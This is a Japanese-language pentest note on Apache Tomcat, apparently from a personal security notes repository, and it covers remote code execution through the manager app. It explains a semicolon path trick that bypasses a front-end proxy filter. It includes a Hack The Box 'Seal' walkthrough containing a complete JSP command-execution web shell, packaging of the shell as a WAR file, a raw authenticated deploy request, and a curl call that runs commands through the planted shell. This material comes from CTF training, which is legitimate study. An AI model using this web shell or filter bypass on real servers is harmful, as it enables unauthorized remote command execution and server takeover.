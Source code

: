 # tomcat

----

## Evil war
* managerにwarファイルをアップロードすることでRCEが可能
* ただしmanagerは初期状態で、ローカルホスト以外のアクセスが禁止されている
* そのため管理者が明示的にローカルホスト以外のアクセスを許可するか、もしくはリバースプロキシのバックエンドにtomcatが存在し、かつtomcatにリバースプロキシの設定がなされていない場合に、攻撃者はmanagerへのアクセスが可能となる
* なお、warファイルはjspファイルをzip圧縮したものでよい。
* Evil warをdeployする際のURLはmanager/html/uploadもしくは、[manager/text/deploy](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)である
* プロキシのバックエンドにtomcatが存在する場合、tomcatが「;」を無視することを利用し、フロントエンドのフィルタをバイパスすることが可能である
* Htb: Seal

  ```console
  ┌─[rio@parrot]─[~/Htb/Seal]
  └──╼ $cat cmd.jsp
  <form method="GET" action="">
          <input type="text" name="cmd" />
          <input type="submit" value="Exec!" />
  </form> <%!
  public String esc(String str){
          StringBuffer sb = new StringBuffer();
          for(char c : str.toCharArray())
                  if( c >= '0' && c <= '9' || c >= 'A' && c <= 'Z' || c >= 'a' && c <= 'z' || c == ' ' )
                          sb.append( c );
                  else
                          sb.append("&#"+(int)(c&0xff)+";");
          return sb.toString();
  } %><%
  String cmd = request.getParameter("cmd");
  if ( cmd != null) {
          out.println("<pre>Command was: <b>"+esc(cmd)+"</b>\n");
          java.io.DataInputStream in = new java.io.DataInputStream(Runtime.getRuntime().exec(cmd).getInputStream());
          String line = in.readLine();
          while( line != null ){
                  out.println(esc(line));
                  line = in.readLine();
          }
          out.println("</pre>");
  } 
  ┌─[rio@parrot]─[~/Htb/Seal]
  └──╼ $zip webshell.war cmd.jsp
    adding: cmd.jsp (deflated 44%)
  ┌─[rio@parrot]─[~/Htb/Seal]
  └──╼ $cat deploy.req
  POST /manager/.;/html/upload?org.apache.catalina.filters.CSRF_NONCE=B4E7920D278D8F9C176C8555C7ED038E HTTP/1.1
  Host: 10.129.199.113
  User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Content-Type: multipart/form-data; boundary=---------------------------25107724814121225253288826308
  Content-Length: 829
  Origin: https://10.129.199.113
  DNT: 1
  Authorization: Basic dG9tY2F0OjQyTXJIQmYqejh7WiU=
  Connection: close
  Referer: https://10.129.199.113/manager/.;/html
  Cookie: JSESSIONID=22BE1792013DD0DAD4D1DF39B78E76FF
  Upgrade-Insecure-Requests: 1
  Sec-GPC: 1
  
  -----------------------------25107724814121225253288826308
  Content-Disposition: form-data; name="deployWar"; filename="webshell.war"
  Content-Type: application/octet-stream
  
  P0S\cmd.jspUT   LLux
                      uRn0
                          =_hH"!Z@Àma٦nrtp
                                          O$ߣe78ahK'x=ؒ*ϤcF,Ǔg`1-[j@       L8^c{ﴽ;/M:t0P#,Q.4p~9ąȳLwU    ۋ-l6K?n9
                  W
                   oK鋍.8m〸L+l^fsq:cW,,IϲXWr'/_O)G{?{Ot|ȼ!bau;l
  J[sN/oGCX2?P0S\cmd.jspUTLux                                   G5]+;GzPCIy%Ae@t{/"J{mk[PJ|A$
                             PKM
  -----------------------------25107724814121225253288826308--
  ┌─[✗]─[rio@parrot]─[~/Htb/Seal]
  └──╼ $curl -k https://10.129.199.113/webshell/cmd.jsp?cmd=ls
  <form method="GET" action="">
          <input type="text" name="cmd" />
          <input type="submit" value="Exec!" />
  </form> <pre>Command was: <b>ls</b>
  
  conf
  lib
  logs
  policy
  webapps
  work
  </pre>
  ```

  
